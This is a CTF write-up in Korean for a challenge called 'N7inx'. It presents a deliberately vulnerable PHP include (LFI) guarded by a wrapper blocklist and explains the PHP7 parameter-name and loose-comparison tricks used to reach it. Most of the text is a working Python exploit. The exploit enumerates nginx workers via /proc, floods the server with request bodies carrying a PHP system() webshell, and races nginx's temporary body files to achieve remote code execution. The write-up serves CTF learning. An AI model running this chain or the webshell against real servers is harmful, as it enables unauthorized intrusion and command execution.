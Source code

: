 # N7inx

# Usage
- 공란

# Concept
- php7trick
- LFI

# Writeup
### index.php
```php
<?php
function No_wrapper($file) {
    $forbidden = array("/filter/i", "#://#", "/utf/i", "/resource/i", "/convert/i","/iconv/i","php/i");
    if (!is_string($file) || !is_ascii($file)) {
        return false;
    }
    foreach ($forbidden as $pattern) {
        if (preg_match($pattern, $file) === 1) {
            return false;
        }
    }
    return true;
}

function is_ascii($str) {
    return 0 === preg_match('/[^\x20-\x7E]/', $str);
}

if (isset($_GET["what_is php"]) && $_GET["7_version"]) {
    $file = $_GET["what_is php"];
    $version = $_GET["7_version"];
    if (strlen($version)<3 && strlen($version)>1){
        if($version > "74" && $version < 74){
            if (No_wrapper($file) === true) {
                include_once($file);
            } else {
                die("NO HACK!!");
            }
        } 
        else die("wrong!!");

    } else die("wrong!!");
}
else {
highlight_file(__FILE__);
die("I don't know....");
}
?>
```

index.php를 살펴보면 먼저 get인자로 what_is php라는 변수와 7_version라는 변수를 받습니다. 먼저 php변수를 보시면 what_is php라는 변수명에 공백이 있습니다. 
php에서는 변수명에 공백이 있으면 공백을 _로 치환합니다. 그러나 php7에서는 앞에 [가 있으면 공백을 _로 치환하지 않습니다.

그리고 7_version이란 변수는 php7에 느슨한 비교 트릭을 이용했습니다.
what_is php가 일단 get으로 받아야하고 7_version가 조건식에 일치해야 LFI가 터집니다.
그러나 함수부분에서 php wrapper에 페이로드 몇 부분을 필터링을 걸어놓았고 
php session upload도 불가능하게 설정해놓았습니다.  
Nginx는 client body buffering(클라이언트가 보내는 데이터를 일시적으로 저장하는 기능)를 제공합니다. 
클라이언트 본문의 크기(POST로 국한되지 않음)가 임계값보다 크면 임시 파일을 작성하고 
PHP webshell 임의 쓰기 그러나 바로 삭제되지만 Race Condition을 통해 파일에 접근해서 
LFI를 통한 RCE가 가능합니다.



#### solve.py
```py
import  threading, requests


URL = f'http://localhost:9000/'

# find nginx worker processes 
r  = requests.get(URL, params={
    '7_version':"7A",
    'what[is php': '/proc/cpuinfo'
})
cpus = r.text.count('processor')

r  = requests.get(URL, params={
    '7_version':"7A",
    'what[is php': '/proc/sys/kernel/pid_max'
})
pid_max = int(r.text)
print(f'[*] cpus: {cpus}; pid_max: {pid_max}')

nginx_workers = []
for pid in range(pid_max):
    r  = requests.get(URL, params={
        '7_version':"7A",
        'what[is php': f'/proc/{pid}/cmdline'
    })

    if b'nginx: worker process' in r.content:
        print(f'[*] nginx worker found: {pid}')

        nginx_workers.append(pid)
        if len(nginx_workers) >= cpus:
            break

done = False

# upload a big client body to force nginx to create a /var/lib/nginx/body/$X
def uploader():
    print('[+] starting uploader')
    while not done:
        requests.get(URL, data='<?php system($_GET["c"]); /*' + 16*1024*'A')

for _ in range(16):
    t = threading.Thread(target=uploader)
    t.start()



def bruter(pid):
    global done

    while not done:
        print(f'[+] brute loop restarted: {pid}')
        for fd in range(4, 32):
            f = f'/proc/self/fd/{pid}/../../../{pid}/fd/{fd}'
            r  = requests.get(URL, params={
                '7_version':"7A",
                'what[is php': f,
                'c': f'pwd'
            })
            if r.text:
                print(f'[!] {f}: {r.text}')
                done = True
                exit()

for pid in nginx_workers:
    a = threading.Thread(target=bruter, args=(pid, ))
    a.start()
```
